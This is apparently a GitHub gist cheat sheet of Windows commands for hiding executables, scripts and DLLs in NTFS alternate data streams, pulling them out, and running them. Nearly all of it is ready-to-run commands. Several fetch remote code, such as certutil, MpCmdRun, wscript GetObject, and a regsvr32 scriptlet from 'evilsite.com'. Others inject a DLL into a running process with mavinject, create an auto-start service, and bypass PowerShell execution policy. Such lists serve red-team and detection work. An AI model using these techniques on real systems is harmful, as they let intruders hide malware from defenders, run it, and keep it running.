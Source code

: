 [api0cradle Exe_ADS_Methods](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

# Add content to ADS
`type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"`

`extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe`

`findstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.exe`

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`

`makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab`

`print /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exe`

`reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg`

`regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey`

`expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat`

`esentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /o`

`powershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"`

`curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.exe`

`cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat`

`"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe" -DownloadFile -url https://www.7-zip.org/a/7z1900.exe -path c:\\temp\\1.txt:7-zip.exe`

`msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl" -o <filename>`


# Extract content from ADS
`expand c:\ads\file.txt:test.exe c:\temp\evil.exe`

`esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o`

`PrintBrm -r -f C:\Users\user\Desktop\data.txt:hidden.zip -d C:\Users\user\Desktop\new_folder`

# Executing from ADS

## WMIC
`wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`

## Rundll32
`rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMain`

`rundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dll`

`rundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll`

## Cscript
`cscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"`

## Wscript
`wscript c:\ads\file.txt:script.vbs`

`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js`

## Forfiles
`forfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"`

## Mavinject.exe
```
c:\windows\SysWOW64\notepad.exe
tasklist | findstr notepad
notepad.exe                   4172 31C5CE94259D4006           2     18,476 K
type c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
```

## MSHTA
`mshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"`
(Does not work on Windows 10 1903 and newer)

## Control.exe
`control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll`
https://twitter.com/bohops/status/954466315913310209

## Service
```
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
```
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

## Powershell.exe
`powershell -ep bypass - < c:\temp:ttt`

`powershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"`

`Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}`

## Regedit.exe
`regedit c:\ads\file.txt:regfile.reg`

## Bitsadmin.exe
```
bitsadmin /create myfile
bitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

## AppVLP.exe
`AppVLP.exe c:\windows\tracing\test.txt:ha.exe`

## Cmd.exe
`cmd.exe - < fakefile.doc:reg32.bat`
https://twitter.com/yeyint_mth/status/1143824979139579904

## Ftp.exe
`ftp -s:fakefile.txt:aaaa.txt`
https://github.com/sailay1996/misc-bin/blob/master/ads.md

## ieframe.dll , shdocvw.dll (ads)
```
echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt
rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt
```
https://github.com/sailay1996/misc-bin/blob/master/ads.md

## bash.exe
```
echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh
bash.exe -c $(fakefile.txt:payload.sh)
```
https://github.com/sailay1996/misc-bin/blob/master/ads.md

## Regsvr32
```
type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADS
regsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```

## Write registry
`regini.exe file.txt:hidden.ini`
From @elisalem9